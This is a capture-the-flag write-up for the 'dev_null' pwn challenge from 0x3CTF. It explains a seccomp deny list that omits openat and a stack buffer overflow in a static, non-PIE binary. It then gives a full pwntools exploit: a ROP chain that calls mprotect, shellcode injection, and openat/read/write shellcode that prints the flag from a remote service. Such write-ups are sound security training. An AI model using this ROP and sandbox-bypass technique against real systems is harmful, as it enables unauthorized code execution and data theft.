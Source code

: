 ## Level: Easy

### Challenge

is a challenge from 0x3CTF... the intro was pretty [sick](https://www.youtube.com/watch?v=1CpP3gfebGI)

main calls dev_null()

![devnul](https://github.com/user-attachments/assets/3b2e7a85-5b96-4908-afaf-e9f1257402eb)

and dev_null calls enable_seccomp()

![seccomp](https://github.com/user-attachments/assets/6f43305b-8f76-4594-b662-253c7f77e8b7)

as you can tell from the name it enables seccomp. 

the output of `seccomp-tools dump ./dev-null`

```
[/dev/null as a service] Send us anything, we won't do anything with it.
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x1c 0xc000003e  if (A != ARCH_X86_64) goto 0030
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x19 0xffffffff  if (A != 0xffffffff) goto 0030
 0005: 0x15 0x18 0x00 0x00000002  if (A == open) goto 0030
 0006: 0x15 0x17 0x00 0x00000003  if (A == close) goto 0030
 0007: 0x15 0x16 0x00 0x00000012  if (A == pwrite64) goto 0030
 0008: 0x15 0x15 0x00 0x00000014  if (A == writev) goto 0030
 0009: 0x15 0x14 0x00 0x00000016  if (A == pipe) goto 0030
 0010: 0x15 0x13 0x00 0x00000020  if (A == dup) goto 0030
 0011: 0x15 0x12 0x00 0x00000021  if (A == dup2) goto 0030
 0012: 0x15 0x11 0x00 0x00000028  if (A == sendfile) goto 0030
 0013: 0x15 0x10 0x00 0x00000029  if (A == socket) goto 0030
 0014: 0x15 0x0f 0x00 0x0000002c  if (A == sendto) goto 0030
 0015: 0x15 0x0e 0x00 0x0000002e  if (A == sendmsg) goto 0030
 0016: 0x15 0x0d 0x00 0x00000031  if (A == bind) goto 0030
 0017: 0x15 0x0c 0x00 0x00000038  if (A == clone) goto 0030
 0018: 0x15 0x0b 0x00 0x00000039  if (A == fork) goto 0030
 0019: 0x15 0x0a 0x00 0x0000003a  if (A == vfork) goto 0030
 0020: 0x15 0x09 0x00 0x0000003b  if (A == execve) goto 0030
 0021: 0x15 0x08 0x00 0x00000065  if (A == ptrace) goto 0030
 0022: 0x15 0x07 0x00 0x00000113  if (A == splice) goto 0030
 0023: 0x15 0x06 0x00 0x00000114  if (A == tee) goto 0030
 0024: 0x15 0x05 0x00 0x00000124  if (A == dup3) goto 0030
 0025: 0x15 0x04 0x00 0x00000125  if (A == pipe2) goto 0030
 0026: 0x15 0x03 0x00 0x00000128  if (A == pwritev) goto 0030
 0027: 0x15 0x02 0x00 0x00000137  if (A == process_vm_writev) goto 0030
 0028: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0030
 0029: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0030: 0x06 0x00 0x00 0x00000000  return KILL
```
> looks like a very strict syscall filter. gosh, if i only knew kernel hacking...

read and write is allowed but open is not

but ya know, there is also openat syscall which they didn't include in the filter...

binary is statically linked so no libc shenanigans 😞

there is simple bof in the dev_null function (never ignore compiler warnings...) which we can use it to call mprotect on an address via gadgets from the binary (no PIE)

then read in your shellcode to the addr with fixed permissions and jump to it

thats pretty much it...

```python3
#!/usr/bin/env python3

from pwn import *
context.arch = 'amd64'
'''
p = gdb.debug("./dev_null", gdbscript="""
              b *dev_null+23
              b *dev_null+50
              b *0x00000000004b0000
              c
""")
'''
p = remote("152abf23-094a-42db-ab67-a6e4df33e392.x3c.tf", 31337, ssl=True)

gets = 0x405a20
puts = 0x405c10
main = 0x401e72

pop_rax = 0x000000000042193c 
pop_rsi = 0x0000000000402acc # +pop rbp
pop_rdi = 0x0000000000413795
pop_rbx = 0x0000000000474967
pop_rdx = 0x000000000046ddce # +pop rbx, r12, r13, rbp

syscall = 0x000000000041aaf4 # mov eax, 0xa; syscall
nop = 0x000000000042210f 

# call mprotect with rwx permissions
payload = p64(pop_rsi)
payload += p64(0x600)
payload += p64(main)

payload += p64(pop_rdx)
payload += p64(0x07)
payload += p64(0x00) * 3
payload += p64(main)

payload += p64(pop_rdi)
payload += p64(0x00000000004b0000)
payload += p64(pop_rax)
payload += p64(0x00) 
payload += p64(syscall)
payload += p64(main)

p.sendlineafter(b"with it.\n", b"a"*16 + payload)

# write and jump to the shellcode
jmp_rax = 0x0000000000407677 # +pop rbp; jmp

payload = p64(pop_rdi)
payload += p64(0x00000000004b0000)
payload += p64(gets)

payload += p64(pop_rax)
payload += p64(0x00000000004b0008)
payload += p64(jmp_rax)

p.sendlineafter(b"with it.\n", b"a"*16 + payload)

# openat, read and write 
asm_code = '''
    nop
    nop
    nop
    sub rsp, 0x20
    mov rdi, 0
    lea rsi, [rip+flag]
    mov rax, 0x101   
    xor rdx, rdx
    xor r10, r10
    syscall
    
    mov rdi, rax
    lea rsi, [buf+rip]
    mov rdx, 0x256
    xor rax, rax
    syscall

    xor rax, rax         
    mov al, 0x1           
    mov rdi, 1              
    lea rsi, [rip+buf]   
    mov rdx, 64             
    syscall                   

flag:
    .string "/home/ctf/flag.txt"

buf:
    .space 256

'''

p.sendline(asm(asm_code))

p.interactive()
```

and the very alive flag...

![flag2](https://github.com/user-attachments/assets/48b4d69a-e57a-4aaa-a583-76ae21acf699)


***4rsp has started solving challs on remote, finally...***

